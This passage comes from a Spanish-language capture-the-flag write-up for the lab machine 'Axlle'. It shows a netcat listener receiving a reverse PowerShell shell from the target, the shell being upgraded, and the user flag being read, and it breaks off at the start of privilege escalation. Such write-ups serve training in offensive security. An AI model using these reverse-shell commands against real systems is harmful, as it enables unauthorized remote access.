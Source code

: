 ```bash
❯ nc -lvnp 8443
Listening on 0.0.0.0 8443
Connection received on 10.10.11.21 53977
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows
PS C:\> ^Z
❯ stty raw -echo; fg
[1]  + 37599 continued  nc -lvnp 8443

PS C:\>
```

La consola que ejecuto actualmente es una ConPtyShell, por si las dudas.

En la carpeta personal de este usuario podremos encontrar la primera flag.

```bash
PS C:\Users> cd ~
PS C:\Users\dallon.matrix> cd Desktop
PS C:\Users\dallon.matrix\Desktop> dir


    Directory: C:\Users\dallon.matrix\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---        11/15/2024   2:02 AM             34 user.txt


PS C:\Users\dallon.matrix\Desktop> type user.txt
aedb66f1554568974f87accf0c******
```

## Escalada de privilegios

### Grupo web devs

Como dallon.matrix, tenemos el siguiente privilegio:

![Change password](/assets/writeups/axlle/4.png)
